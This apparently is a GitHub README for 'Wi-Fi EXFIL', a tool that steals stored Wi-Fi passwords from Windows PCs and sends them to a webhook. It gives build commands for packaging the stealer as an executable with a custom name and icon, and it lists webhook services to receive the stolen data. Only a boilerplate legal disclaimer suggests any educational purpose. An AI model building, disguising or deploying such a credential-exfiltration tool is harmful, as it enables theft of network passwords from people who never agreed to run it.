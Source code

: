 # Wi-Fi EXFIL

Exfiltrate stored Wi-Fi passwords from a Windows PC.

## Requirements

1. On your Windows machine install Python from <https://www.python.org/downloads/>.

2. Install pyinstaller, run `pip install pyinstaller` from cmd.

3. Create a webhook from one of the following sites:

- <https://requestinspector.com>
- <https://beeceptor.com>
- <https://webhook.site>

## Usage

First clone or download repo as ZIP. Then select between [build](#build) or [test](#test) mode.

### Build

Create basic executable:

```shell
python3 build.py <webhook_url>
```

Create executable with custom name or icon:

```shell
python3 build.py -n <name> -i <icon_file> <webhook_url>
```

Executable will be placed inside the **dist** directory. Run it and results will appear in the webhook.

### Test

> :warning: This mode is designed for running scripts directly from Python without needing any executable.

```shell
python3 test.py <webhook_url>
```

## Disclaimer

Usage of these scripts for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.

## Credits

[Original script](https://github.com/thegoodhackertv/wifiExfil) provided by [Andrés Moreno](https://github.com/thegoodhackertv).

[<img width=300 alt="patreon" src="https://i0.wp.com/thegoodhackertv.com/wp-content/uploads/2020/11/patreon.png">](https://www.patreon.com/thegoodhacker)
[<img width=250 alt="buymeacoffe" src="https://cdn.buymeacoffee.com/buttons/v2/default-orange.png">](https://www.buymeacoffee.com/thegoodhacker)

<!-- ¡Un saludo desde México Andrés! -->
